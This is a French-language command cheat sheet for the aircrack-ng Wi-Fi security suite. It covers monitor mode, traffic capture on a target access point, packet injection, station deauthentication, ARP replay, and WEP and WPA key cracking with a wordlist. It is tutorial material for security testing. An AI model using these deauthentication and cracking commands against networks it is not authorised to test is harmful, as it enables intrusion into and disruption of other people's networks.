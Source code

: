 aircrack-ng
===========

*aircrack-ng* est une suite logicielle permettant de tester la sécurité des réseaux sans-fil type 802.11 (wifi).

Un peu de vocabulaire :
* AP : Access Point
* STA : une station connectée à un AP
* essid : nom diffusé par l'AP.
* bssid : adresse MAC de l'AP

## Configuration
Pour voir les caractéristiques des interfaces wifi du système (on peut connaître par exemple les modes possibles : `AP` ou `monitor` par exemple) :
```
# iw list
```
ou
```
# iw phy phy0 info
```

Pour mettre l'interface `wlan0` en mode `monitor` :
```
# airmon-ng start wlan0
```

On peut fixer un canal d'écoute :
```
# airmon-ng start wlan0 9
```

Pour désactiver le mode `monitor` :
```
# airmon-ng stop wlan0mon
```

A noter que l'interface change de nom lorsqu'elle passe en mode `monitor` : `wlan0` -> `wlan0mon`

Pour tuer les process qui pourraient gêner le changement de mode :
```
# airmon-ng check kill
```

## Utilisation
### Reconnaissance
Pour scanner les réseaux wifi disponibles :
```
# iwlist wlan0 scan
```

### Ecoute
Pour écouter (tous les réseaux) :
```
# airodump-ng wlan0mon
```

Pour spécifier en plus le *channel* et le *bssid* de l'AP cible et dumper la capture (les fichiers générés auront le préfixe `dump`) :
```
# airodump-ng wlan0mon -c 9 --bssid XX:XX:XX:XX:XX:XX -w dump
```

### Injection de paquets
Pour tester une injection de paquets :
```
# aireplay-ng -9 -e <essid> -a <bssid> wlan0mon
```

Pour dés-authentifier une station (option `-0`) :
```
# aireplay-ng -0 <nombre_de_req_envoyées> -c <station_mac_addr> -a <bssid> wlan0mon
```

Pour rejouer du trafic (après qu'une station ait créé du trafic légitime) :
```
# aireplay-ng --arpreplay -b <bssid> -h <station_mac_addr> wlan0mon
```

### Crack clé WEP
Le principe ici est de capturer suffisamment de trafic (des *IVs*). On peut rejouer des paquets si nécessaire pour générer plus de trafic.
```
# aircrack-ng *cap
```

### Crack clé WPA
Pour cracker une clé WPA avec un fichier de dictionnaire après avoir capturer un *4-way-handshake*. On peut dés-authentifier une station si nécessaire pour forcer sa ré-authentification.
```
# aircrack-ng -w dict.txt -b <bssid> dump.cap
```

## Sources
* https://linuxconfig.org/discover-hidden-wifi-ssids-with-aircrack-ng
* https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
* https://www.aircrack-ng.org/doku.php?id=newbie_guide
* https://doc.ubuntu-fr.org/aircrack-ng
